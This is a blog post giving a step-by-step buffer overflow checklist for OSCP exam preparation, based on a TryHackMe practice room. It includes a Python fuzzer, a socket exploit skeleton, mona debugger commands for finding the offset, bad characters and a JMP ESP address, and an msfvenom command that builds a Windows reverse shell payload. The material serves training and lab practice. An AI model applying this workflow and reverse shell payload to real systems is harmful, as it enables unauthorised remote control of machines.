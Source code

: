 ```yaml
---
layout: post
title:  "Buffer Overflow Checklist"
date:   2021-01-21 20:07:19
categories: [Checklist,oscp-prep,BOF]
comments: true

---
```


I prepared these checklist from this Amazing THM Room. Thanks to the creator
https://tryhackme.com/room/bufferoverflowprep

<!--more-->

### Step 1 (Initial Set up):
 
* Run the immunity debugger as Administrator
* File --> Open --> "Load the BOF Binary"
* Debug --> Run/Restart
* Connect to the vulnerable bof from Kali linux and understand how the binary works
`nc <remotemachine> port`
* Configure Mona working directory to the current directory
`!mona config -set workingfolder c:\mona\%p`

### Step 2 (Fuzz)

* Run fuzz.py
```
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n") # Add the prefix here. Look at the required space
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
* When you see the `Could not connect to the Machine`, then note the largest byte sent.

### Step 3 (EIP Control):

* Create exploit.py
```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

* Create pattern, by giving 400 byte extra to the byte that we found during step2.
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`
* Put output for the above in `payload` variable
* Rerun the debugger and execute exploit.py
* Once the application crash, execute the below command in mona to find EIP offset (give length as given in pattern create)
`!mona findmsp -distance 600`
* Update the offset variable
* Empty the payload variable
* Update retn value with BBBB
* Restart the binary and you will notice the value of B in EIP


### Step 4 (Finding Bad Characters):

* Create bytearray bin in Mona by excluding Bad characters. /x00 by default a bad character
`!mona bytearray -b "\x00"`
* Create bytearray
```
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
* Set the result to the payload variable
* Restart the binary and run exploit.py
* Once crashed, execute the below to know further bad characters
`!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`
* Make note of bad characters, add to the bytearray bin and remove the badcharacters from the bytearray payload.
* Repeat the above process till get "Unmodified" while comparing with ESP address


### Step 5 (Finding Jump point)

* Update -cbp flag with all bad characters found from the step 4
`!mona jmp -r esp -cpb "\x00"`
* The above command return all the address of ESP that does not contain any bad characters
* Choose any ESP address and update it in reverse order in the retn Variable


### Step 6 (Generating Payload)

* `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py `
* Tweak the code by replacing payload to buf

* Set the padding 16 or more `padding = "\x90" * 16` in the exploit code
* Spwan a nc listner and run the exploit!





